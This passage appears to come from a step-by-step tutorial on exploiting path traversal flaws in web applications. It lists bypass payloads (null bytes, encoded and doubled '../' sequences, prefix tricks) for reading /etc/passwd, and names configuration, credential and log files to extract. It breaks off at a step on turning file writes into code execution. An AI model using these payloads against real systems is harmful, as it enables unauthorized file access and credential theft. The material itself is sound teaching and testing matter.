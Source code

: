 #### **2. Forced File Extensions**

If the app automatically appends `.jpg`, try:

```
file=../../../../passwd%00
```

#### **3. Directory Prefix Enforcement**

If the app forces the path to start with something like `filestore/`, you can still try:

```
filestore/../../../../etc/passwd
```

---

### 🔹 **Step 5: Combine Multiple Techniques if Needed**

Sometimes filters are layered. If:

```
file=../diagram1.jpg
```

fails, try combining traversal bypasses:

```
file=..%2fdiagram1.jpg  
file=..%u2215diagram1.jpg  
file=....//diagram1.jpg
```

And if you can't read `/etc/passwd` but can read valid files like `diagram1.jpg`, try:

```
file=/etc/passwd%00.jpg
```

---

### 🔹 **Step 6: Use File Access to Extract Valuable Info**

If you manage to read arbitrary files, prioritize these targets:

* `/etc/passwd` (Linux user accounts)
* `web.config`, `.env`, `application.properties` (configuration and credentials)
* `.log` files (sessions, usernames)
* Source code files like `.php`, `.asp` (code auditing)
* Database files, XML, or JSON sources
* Backup or hidden directories

---

### 🔹 **Step 7: If You Can Write Files – Go for Code Execution**

If the vulnerability allows writing files, you can:

